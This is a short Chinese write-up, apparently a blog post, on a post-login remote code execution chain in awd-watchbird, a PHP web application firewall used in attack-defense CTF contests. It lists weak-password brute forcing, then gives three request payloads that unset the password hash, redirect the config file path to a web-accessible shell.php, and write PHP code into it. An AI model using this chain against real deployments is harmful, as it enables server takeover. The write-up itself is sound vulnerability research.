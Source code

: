 ```yaml
---
title: "awd-watchbird后台RCE"
author: ["4shen0ne"]
draft: false
---
```


awd-watchbird 是一个 PHP Waf，一般用在 AWD[P] 比赛

后台 RCE 利用流程

1.  爆破弱口令，获取后台权限
2.  通过更新配置的接口可以修改配置项（key 为配置项，value 为对应的值）

    ```text
    ?watchbird=change&key=password_sha1&value=unset
    ```
3.  在更新逻辑中会使用可变变量 `$$key` 将配置项声明为变量，导致可以覆盖声明配置文件
    路径的变量

    ```text
    ?watchbird=change&key=config_path&value=/var/www/html/shell.php
    ```
4.  然后在配置中写入代码即可

    ```text
    ?watchbird=change&key=%3C?php%20phpinfo();%20?%3E&value=1
    ```
